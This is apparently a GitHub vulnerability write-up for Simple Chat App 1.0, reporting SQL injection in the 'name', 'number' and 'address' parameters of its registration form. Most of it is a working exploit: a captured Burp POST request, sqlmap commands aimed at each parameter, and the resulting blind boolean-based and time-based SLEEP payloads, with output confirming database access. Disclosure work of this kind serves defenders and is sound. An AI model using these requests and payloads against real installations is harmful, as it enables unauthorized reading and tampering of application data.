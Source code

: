 # Simple Chat App - SQL Injection - 2
+ **Exploit Title:** Simple Chat App - SQL Injection - 2
+ **Date:** 2024-12-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/simple-chat-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/55a2b6be-cd54-4114-8d04-2ba66d0bc11a 
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple Chat App 1.0 allows SQL Injection via the 'name','number' and 'address' parameters at "http://localhost/chat_project/register.php/" 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept(PoC):
+ Go to this address: "http://localhost/chat_project/register.php/"
+ Fill out the form and register. 
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /chat_project/add_user.php HTTP/1.1
Host: localhost
Content-Length: 67
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chat_project/register.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=mglk3dokbsuogop6o3e3gtliae
Connection: close

name=helo&email=helo%40mail.com&password=123&number=123&address=123

```
### Name
+ Use sqlmap to exploit. In sqlmap, use 'name' parameter to dump the database.
```
sqlmap -r r.txt -p name --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: name=helo' RLIKE (SELECT (CASE WHEN (8824=8824) THEN 0x68656c6f ELSE 0x28 END)) AND 'VWyC'='VWyC&email=helo@mail.com&password=123&number=123&address=123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=helo' AND (SELECT 7077 FROM (SELECT(SLEEP(5)))BpTg) AND 'VLCR'='VLCR&email=helo@mail.com&password=123&number=123&address=123
---
[11:25:42] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:25:42] [INFO] fetching current database
current database: 'tutorial_db'
```
+ current database: `tutorial_db`

![Ekran görüntüsü 2024-05-15 045403](https://github.com/BurakSevben/CVEs/assets/117217689/c5cb01f9-2cf1-4e28-b6b5-65e0df6deb0e)



### Number
+ Use sqlmap to exploit. In sqlmap, use 'number' parameter to dump the database.
```
sqlmap -r r.txt -p number --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: number (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: name=helo&email=helo@mail.com&password=123&number=123' RLIKE (SELECT (CASE WHEN (5597=5597) THEN 123 ELSE 0x28 END)) AND 'zoNA'='zoNA&address=123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=helo&email=helo@mail.com&password=123&number=123' AND (SELECT 1148 FROM (SELECT(SLEEP(5)))UvZO) AND 'PgGv'='PgGv&address=123
---
[11:28:05] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:28:05] [INFO] fetching current database
current database: 'tutorial_db'

```
+ current database: `tutorial_db`

![Ekran görüntüsü 2024-05-15 045627](https://github.com/BurakSevben/CVEs/assets/117217689/d7ec1a56-f6b9-4ce3-b4c7-a27e1381ab19)


### Address
+ Use sqlmap to exploit. In sqlmap, use 'address' parameter to dump the database.
```
sqlmap -r r.txt -p address --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: address (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: name=helo&email=helo@mail.com&password=123&number=123&address=123' RLIKE (SELECT (CASE WHEN (3446=3446) THEN 123 ELSE 0x28 END)) AND 'rSpr'='rSpr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=helo&email=helo@mail.com&password=123&number=123&address=123' AND (SELECT 5200 FROM (SELECT(SLEEP(5)))sULX) AND 'puCb'='puCb
---
[11:29:12] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:29:12] [INFO] fetching current database
current database: 'tutorial_db'

```
+ current database: `tutorial_db`

![Ekran görüntüsü 2024-05-15 045903](https://github.com/BurakSevben/CVEs/assets/117217689/2755010b-ecd9-43aa-bca1-f41575e249bb)

